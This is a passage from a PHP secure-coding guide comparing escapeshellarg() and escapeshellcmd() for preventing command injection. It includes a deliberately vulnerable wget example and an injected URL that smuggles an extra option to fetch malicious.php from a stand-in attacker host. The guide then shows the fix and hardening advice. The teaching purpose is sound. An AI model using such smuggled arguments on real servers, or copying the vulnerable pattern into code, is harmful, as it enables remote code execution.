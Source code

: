 `escapeshellarg()`:  Ensures the user can pass only one parameter to the command, cannot add extra parameters, and cannot execute a different command.

`escapeshellcmd()`: Ensures the user can execute only the intended command, can pass unlimited parameters, but cannot execute other commands.

It is always preferable to use `escapeshellarg()` rather than `escapeshellcmd()` when dealing with user input.

For example, consider this code using `wget` with `escapeshellcmd()`:

```php
$url = $_GET['url'];
$command = 'wget --directory-prefix=..\temp ' . $url;
system(escapeshellcmd($command));
```

If the user provides:

```text
http://victim.com/download.php?url=--directory-prefix=. http://attacker.com/malicious.php
```

`escapeshellcmd()` will still allow this extra parameter meaning the attacker can override the original `--directory-prefix` option, save the file in the current directory and then achieve remote command execution on the server.

The safe approach is to use `escapeshellarg()` so that the URL is treated as a single argument:

```php
$url = $_GET['url'];
$command = 'wget --directory-prefix=..\temp ' . escapeshellarg($url);
system($command);
```

Now the malicious input becomes:

```text
wget --directory-prefix=..\temp '--directory-prefix=. http://attacker.com/malicious.php'
```

Here, the second `--directory-prefix` is part of the quoted string, not a real option, so the attack fails.

In addition, it is good security practice to follow these recommendations:  

- **Hardcode the command**: never allow the user to choose which executable to run.  
- **Hardcode options**: required flags (e.g., `--directory-prefix`) should be in the code, not in user input.  
- **Validate and restrict input as much as possible**: apply strict validation rules, whitelists, and format checks to minimize the attack surface.  

## Related articles

### Description of Command Injection Vulnerability

- OWASP [Command Injection](https://owasp.org/www-community/attacks/Command_Injection).

### How to Avoid Vulnerabilities
